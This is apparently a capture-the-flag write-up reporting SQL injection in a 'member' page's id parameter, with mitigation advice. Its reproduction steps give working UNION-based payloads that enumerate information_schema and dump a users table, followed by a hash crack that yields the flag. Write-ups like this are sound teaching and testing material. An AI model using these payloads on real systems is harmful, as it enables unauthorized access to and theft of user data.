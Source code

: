 # Vulnerability Report

## Summary

An SQL Injection was discovered in the parameter `id` in the `member` page.
This vulnerability allows enumeration of the database.

## Vulnerability details

### CWE Reference

- **CWE ID**: [CWE-89: Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection')](https://cwe.mitre.org/data/definitions/89.html)

### Description
The SQL Injection vulnerability was identified in the id parameter of the member page. This vulnerability allows an attacker to manipulate SQL queries executed by the application. By injecting malicious payloads into the id parameter, it is possible to enumerate database contents, including retrieving table names, column names, and sensitive data.

The application's failure to sanitize or parameterize user input enables this exploitation. During testing, it was observed that the application processes raw input directly into SQL queries, making it susceptible to standard SQL Injection techniques such as UNION queries and data concatenation. This issue is further exacerbated by the lack of any filtering mechanisms to validate input or restrict query results.

### Steps to reproduce
1. Discover the vulnerability by entering `1 OR 1=1`. 
2. Determine the number of columns in the query using `ORDER BY` clause (2 in that case):
    ```sql
    1 ORDER BY 3
    ```
3. Find the current database name:
    ```sql
    1 UNION SELECT DATABASE(), NULL
    ```
    Which is `Member_Sql_Injection` in our case.
4. Enumerate the tables of the current db:
    ```sql
    1 UNION SELECT TABLE_NAME, NULL FROM information_schema.tables WHERE TABLE_SCHEMA = 0x4d656d6265725f53716c5f496e6a656374696f6e
    ```
    We used hex encoded value of the database name because using quotes generate syntax errors.
    The query displays that there is only one table named `users`.
5. Enumerate the columns of the table `users`:
    ```sql
    1 UNION SELECT COLUMN_NAME, NULL FROM information_schema.columns WHERE TABLE_NAME = 0x7573657273
    ```
    This query showed us the column names: `user_id`, `first_name`, `last_name`, `town`, `country`, `planet`, `Commentaire`, `countersign`.
6. Retrieve the data from the `users` table:
    ```sql
    1 UNION SELECT CONCAT(user_id,0x7c,first_name,0x7c,last_name,0x7c,town), CONCAT(country,0x7c,planet,0x7c,Commentaire,0x7c,countersign) FROM users
    ```
    Since only two columns are available in our query and there are 8 columns to retrieve we used `CONCAT` to concatenate the columns with a separator between each column.
    As seen in the first query, user 5 contains some interesting information.
7. Decrypt the password using [Crackstation](https://crackstation.net/).
8. Lower the string and get the sha256sum:
    ```bash
    python3 -c "print('FortyTwo'.lower(), end='')" | sha256sum
    ```
9. You got the flag.

### Impact
The SQL Injection vulnerability allows attackers to enumerate the database, exposing sensitive information such as table structures, column names, and user data. This can lead to unauthorized access, data theft, or further exploitation of the application.

## Mitigation
Use parameterized queries or prepared statements to prevent SQL Injection by ensuring user input is properly escaped. Additionally, validate and sanitize all inputs, and apply the principle of least privilege to the database user to restrict access to sensitive data.
## References
- [OWASP SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
